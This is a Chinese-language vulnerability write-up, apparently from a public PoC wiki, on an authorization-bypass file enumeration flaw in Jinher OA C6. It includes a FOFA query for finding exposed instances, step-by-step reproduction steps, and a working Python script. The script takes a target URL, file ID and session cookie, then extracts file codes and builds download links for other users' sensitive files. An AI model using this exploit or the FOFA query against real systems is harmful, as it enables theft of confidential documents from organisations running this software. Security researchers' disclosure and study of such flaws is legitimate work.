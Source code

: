 # 金和OA-C6-后台越权敏感文件遍历漏洞

## 漏洞描述

金和OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

## 漏洞影响

> [!NOTE]
>
> 金和OA C6

## FOFA

>[!NOTE]
>
>app="Jinher-OA"

## 漏洞复现

登录后点击信息交流，发起协同页面

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/1627363506872155.jpg)

上传附件并上传发送给目标

> [!NOTE]
>
> 这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/1627363507153352.jpg)

成功收到上传的附件

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/16273635074008288.jpg)

点击查看时抓包，发现一个带有文件ID的请求包

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/16273635077287.jpg)

返回了几个参数

```
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id参数为另一个值，且测试后发现 name文件名参数无关紧要

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/1627363508117238.jpg)

更改ID后发送请求包发现获得另一个文件的信息

访问Url，注意 **type参数 ** 需要为正确的文件后缀才可以访问

```
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/1627363508417749.jpg)

这里更换一个普通用户测试是否可行，尝试遍历 id

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/16273635087546508.jpg)

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/1627363509115285.jpg)

存在 **strFilePath参数** 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

**FileID 与 FileIDCode**

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/16273635094816651.jpg)

于是只需要通过刚刚的ID遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限

## 漏洞利用POC

> [!NOTE]
>
> POC只检测是否存在漏洞，且漏洞存在于后台需要登录
>
> 运行后访问链接即可下载文件

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 金和OA C6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_id, cookie):
    vuln_url = target_url + "/C6/control/OpenFile.aspx?id={}&name=&type=pdf".format(file_id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie":cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 Url: {}\033[0m".format(vuln_url))
        if "strFilePath =" in response.text and response.status_code == 200:
            strFilePath = re.findall(r"var strFilePath = '(.*?)';", response.text)[0]
            strFileType = strFilePath[-3:]
            strFileIDCode = re.findall(r"var strFileIDCode='(.*?)';", response.text)[0]
            strId = re.findall(r"var strId = '(.*?)';", response.text)[0]
            sid = re.findall(r'ASP.NET_SessionId=(.*?);', cookie)[0]
            if strFilePath != "":
                print("\033[36m[o] 目标 {} 存在漏洞, 获取文件信息:\n[o] 文件路径：{}\n[o] 文件类型：{}\n[o] 文件ID code：{}\n[o] 文件编号： {}\033[0m".format(target_url, strFilePath, strFileType,strFileIDCode, strId ))
                print("\033[32m[o] 文件下载链接为: {}/C6/JHSoft.Web.CustomQuery/uploadFileDownLoad.aspx?Decrypt=&FileID={}&FileIDCode={}&sid={}".format(target_url, strId, strFileIDCode, sid))
            else:
                print("\033[31m[x] 目标 {} 文件不存在     \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_id = str(input("\033[35mFile_id >>> \033[0m"))
    cookie = str(input("\033[35mCookie  >>> \033[0m"))
    POC_1(target_url, file_id, cookie)
```

![](金和OA-C6-后台越权敏感文件遍历漏洞.assets/1627363510070805.jpg)